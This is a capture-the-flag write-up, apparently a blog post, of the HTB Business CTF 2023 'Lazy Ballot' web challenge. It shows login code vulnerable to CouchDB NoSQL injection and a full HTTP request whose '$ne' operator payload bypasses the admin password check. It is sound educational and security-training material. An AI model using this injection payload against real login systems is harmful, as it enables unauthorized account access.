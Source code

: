 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Web - Lazy Ballot
date: 2023-07-18
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/WebLazyBallot
img: 2023/07/HTBBusinessCTF/LazyBallot/LazyBallotDescription.png
---
```


In this challenge, I had to exploit a NoSQL injection vulnerability in CouchDB.

> Very Easy

> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

The challenge provided the source code to the web application. I looked at the code to log in the application.


```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
}
```

It was quering CouchDB to validate the username and password provided by the user. There was no validation or escaping done on the data. I looked for how to do [NoSQL injection in CouchDB](https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf). Turned out it's the same as in MongoDB.

I intercepted the login request in Caido and crafted the injection payload.

```http
POST /api/login HTTP/1.1
Host: 94.237.52.136:30851
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.52.136:30851/login
Content-Type: application/json
Origin: http://94.237.52.136:30851
Connection: keep-alive
Cookie: connect.sid=s%3A0vAPBnbt2c92D38LlRLoFbhpLjvLCoAa.%2BZxScmLRomvTFUyYmySOdTNZI8BBQkVyVp4PFwRk2J4
Content-Length: 42

{"username":"admin","password":{"$ne":""}}
```

I was logged in.

![Logged In](/assets/images/2023/07/HTBBusinessCTF/LazyBallot/LoggedIn.png "Logged In")

I went to the last page and found the flag.

![Flag](/assets/images/2023/07/HTBBusinessCTF/LazyBallot/Flag.png "Flag")
